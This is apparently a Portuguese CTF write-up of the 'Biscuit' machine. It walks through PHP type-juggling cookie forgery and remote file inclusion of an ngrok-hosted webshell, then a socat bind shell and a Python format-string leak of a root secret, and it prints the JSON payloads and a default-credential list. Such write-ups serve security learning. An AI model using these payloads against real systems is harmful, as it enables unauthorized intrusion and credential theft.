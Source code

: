 ```yaml
---
layout: post
title:  "UHCCTF (Classificatória) - Biscuit (Official Write-Up) pt-br"
tags: pt-br ctf write-up
---
```


Ola sou o Vinicius (big0us), esse é um write-up de uma maquina que foi o challenge de uma das etapas classificatórias do UHC.

Escreverei meio rápido então peço desculpas se algo estiver um pouco ruim.

Boa leitura :)

g00d_h4ck1ng

# Recon

![/assets/biscuit/Untitled.png](/assets/biscuit/Untitled.png)

A primeira página é uma página de login, dando uma olhada no HTML da página aparentemente não existe nada escondido, vou rodar um fuzzing e depois poderemos testar algumas credenciais.

![/assets/biscuit/Untitled%201.png](/assets/biscuit/Untitled%201.png)

Aparentemente nosso fuzzing entregou apenas um /class, onde existe um directory listing apontando um arquivo ".php".

![/assets/biscuit/Untitled%202.png](/assets/biscuit/Untitled%202.png)

Ok, vamos testar algumas credenciais padrões no formulário de login:

```
admin:admin
guest:guest
administrator:admin
root:root
```

Testando "guest:guest" conseguimos entrar:

![/assets/biscuit/Untitled%203.png](/assets/biscuit/Untitled%203.png)

Dando uma olhada aparentemente temos só uma página de welcome.

Vamos ver nossos cookies.

![/assets/biscuit/Untitled%204.png](/assets/biscuit/Untitled%204.png)

Vamos entender melhor esse cookie chamado session pois ele parece ser interessante:

![/assets/biscuit/Untitled%205.png](/assets/biscuit/Untitled%205.png)

Utilizando o cyberchef para decodar o cookie podemos perceber que se trata de um JSON com três valores: hmac (provavelmente algo que valide os valores), username, e uma hora para o cookie expirar.

Vou tentar alterar o valor de username para "admin" encodar em base64, url e então enviar para a aplicação.

![/assets/biscuit/Untitled%206.png](/assets/biscuit/Untitled%206.png)

Aparentemente retornou um erro dizendo que estamos tentando fazer um "temperamento de cookie", e retornou uma flag! Nossa primeira flag.

Depois de alguns testes enviando cookies com outros valores aleatórios, acabei percebendo que a aplicação valida o Cookie pelo valor do hmac, e não pelo conteudo inteiro do json.

Uma vulnerabilidade muito conhecida sobre validações do PHP é o type jugling, que consiste em bypass de autenticações fazendo qualquer if($ == $) retornar "true".

[PHP Tricks (SPA)](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)

[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

![/assets/biscuit/Untitled%207.png](/assets/biscuit/Untitled%207.png)

Basicamente quando um programador utiliza "==" em uma comparação o php primeiro torna os dois valores do mesmo tipo, ignorando o tipo (int, str...) das variáveis.

E nessa operação podemos utilizar algumas técnicas para a comparação retornar "true".

# Exploitation

Depois de um tempo tentando, testei trocar o valor do "hmac" para "true" e aparentemente funcionou!

![/assets/biscuit/Untitled%208.png](/assets/biscuit/Untitled%208.png)

```json
{"hmac":true,"username":"admin","expiration":1625435484}
```

![/assets/biscuit/Untitled%209.png](/assets/biscuit/Untitled%209.png)

Ok, fiquei triste que não existe nenhuma flag por aqui 😢.

Vou tentar alterar o nome do usuário para entender o que está acontecendo.

Alterando para "test" o php nos retorna um erro, aparentemente ele está rodando um "require_once" no valor que colocamos + adicionando .php no final. require_once normalmente é usado para incluir páginas e arquivos php em sites, e quando o usuário tem controle sobre o valor que o require_once vai usar a aplicação está vulnerável a LFI ou RFI (Local/Remote File Inclusion).

![/assets/biscuit/Untitled%2010.png](/assets/biscuit/Untitled%2010.png)

Como a aplicação ja coloca o .php no final vou fazer o seguinte.

Subir um arquivo com uma webshell num servidor utilizando o ngrok, mandar a a aplicação incluir meu arquivo e conseguir um RCE.

![/assets/biscuit/Untitled%2011.png](/assets/biscuit/Untitled%2011.png)

E vou mandar a payload:

```json
{"hmac":true,"username":"https://3b4f8afabab2.ngrok.io/shell","expiration":1625435484}
```

(A aplicação ja vai colocar o .php)

Temos RCE!!

![/assets/biscuit/Untitled%2012.png](/assets/biscuit/Untitled%2012.png)

Agora vou tentar pegar uma reverse shell.

Após algumas tentativas percebi que existe um firewall na aplicação que bloqueia qualquer comunicação em portas que não forem 80 ou 443, como eu não tenho uma VPS, vou fazer de uma forma diferente, ao invés de uma reverse shell (onde a vitima se conecta no atante) vou pegar uma bind shell (abrindo uma porta na maquina e me conectando nela).

Para isso vou usar o "socat".

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/#bind-shell)

![/assets/biscuit/Untitled%2013.png](/assets/biscuit/Untitled%2013.png)

Primeiro peguei o binario do socat no github deles (socat binary) e passei pra maquina utilizando o web-server que eu criei para conseguir RCE, e dando um curl.

Então rodei os comandos que estão na imagem e consegui uma bind shell! (utilizei a porta 6969)

![/assets/biscuit/Untitled%2014.png](/assets/biscuit/Untitled%2014.png)

E navegando um pouco no / encontramos a próxima flag:

![/assets/biscuit/Untitled%2015.png](/assets/biscuit/Untitled%2015.png)

# Pós Exploitation

Fazendo o básico checklist de priv esc podemos perceber que estamos com o usuário do apache e podemos rodar um script como root na máquina:

![/assets/biscuit/Untitled%2016.png](/assets/biscuit/Untitled%2016.png)

Aparentemente não podemos ler o script e nem altera-lo.

![/assets/biscuit/Untitled%2017.png](/assets/biscuit/Untitled%2017.png)

O que nos resta é roda-lo:

![/assets/biscuit/Untitled%2018.png](/assets/biscuit/Untitled%2018.png)

Aparentemente ele printa um IP, dando uma olhada no /var/www/html o path da aplicação web podemos perceber que existe um arquivo com o mesmo ip que ele printou, então aparentemente ele está printando o IP que está no arquivo.

![/assets/biscuit/Untitled%2019.png](/assets/biscuit/Untitled%2019.png)

Abri o arquivo com o nano (antes rodar 'export TERM=xterm' !!) e começei a edita-lo para tentar retornar algum erro no python que me mostre alguma coisa do programa.

![/assets/biscuit/Untitled%2020.png](/assets/biscuit/Untitled%2020.png)

![/assets/biscuit/Untitled%2021.png](/assets/biscuit/Untitled%2021.png)

Interessante, aparentemente existe um format string diferente (pouco usado) rodando.

Pesquisando sobre esse tipo de format string + vulnerabilites acabei tropeçando nesse artigo.

[Are there any Security Concerns to using Python F Strings with User Input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)

Basicamente nele explica-se tudo o que precisamos fazer, por isso não vou explicar direitinho, mas basicamente a forma que esse format string funciona nos permite injetar mais strings para serem formatadas, e se isso é printado podemos printar todas as váriaveis globais que o arquivo usa, normlamente dando alguma key ou senha para nós. (Para quem não entende muito bem inglês é só traduzir que fica tranquilo de entender).

Ok então vamos a payload.

```json
{"ips":["{ip.list_blocked.__globals__}"]}
```

![/assets/biscuit/Untitled%2022.png](/assets/biscuit/Untitled%2022.png)

Aparentemente funcionou e conseguimos o valor de uma váriavel chamada root_secret, provavelmente é a senha do root.

![/assets/biscuit/Untitled%2023.png](/assets/biscuit/Untitled%2023.png)

Worked!!

Obrigado a você que leu até aqui, parabéns cadu pela máquina, e desclupe por algum erro no write-up, fiz correndo >_>